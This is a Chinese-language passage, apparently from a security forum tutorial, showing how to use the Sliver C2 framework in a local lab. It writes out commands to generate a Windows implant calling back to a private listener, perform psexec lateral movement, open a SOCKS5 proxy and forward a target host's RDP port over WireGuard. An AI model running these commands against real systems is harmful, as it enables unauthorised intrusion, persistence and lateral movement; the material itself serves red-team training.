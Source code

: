 这里以 psexec 横向移动为例，进行演示。

```shell
# 创建配置文件
profiles new --format service --skip-symbols --mtls 172.16.181.182 psexec_test
# 执行psexec攻击
psexec -profile pentest --service-name pentest -service-description pentest red.team
```

本地环境，有些配置没有开启  
![p9PUp8K.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-98c3a30b160937525c538a0242bd162c2b4124d8.png)

### Command&amp;Control | 内网穿透

#### Socks Proxy | 内网代理

Sliver C2 中搭载了内置的 Socks5 命令，用于快速创建 Socks 代理

```shell
socks5 start -P 9001
```

![p9PU9gO.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-6c8fa57c67fc193974d74c2e18d3536052e8ad2b.png)

> 这里是在客户端中执行的，有个疑问就是为什么可以在客户端上开启 socks 而不是在服务器，稍微复杂。

在浏览器中设置代理  
![p9PUIZd.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-3fe0027b43c6bebe4b3883b52c597daafd0bc66c.png)

在内网机器上开启简易http服务来测试  
![p9PUodA.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-dcf1218ed607d02be398a8fddf9bd7f0d08013cc.png)

#### Wireguard | 端口转发?

> 参考 - [Port Forwarding(github.com)](https://github.com/BishopFox/sliver/wiki/Port-Forwarding)

端口转发为例：  
创建监听器，生成Implant

```shell
# 开启WireGuard监听器
wg --lport 9100
# 生成对应的Implant
generate --wg 172.16.181.182:9100 --os windows --arch amd64 --format exe
```

执行上线，对端的地址就配置为了100.64段  
![p9PUzZj.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-a71bf5836a47e4e4261bf6808d11980684c7d54c.png)

添加端口转发，转发目标主机3389端口

```shell
wg-portfwd add -r 172.16.181.139:3389
```

![p9PUXQS.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-c90aa6d9042d36984d75966ff1b782f14c887252.png)
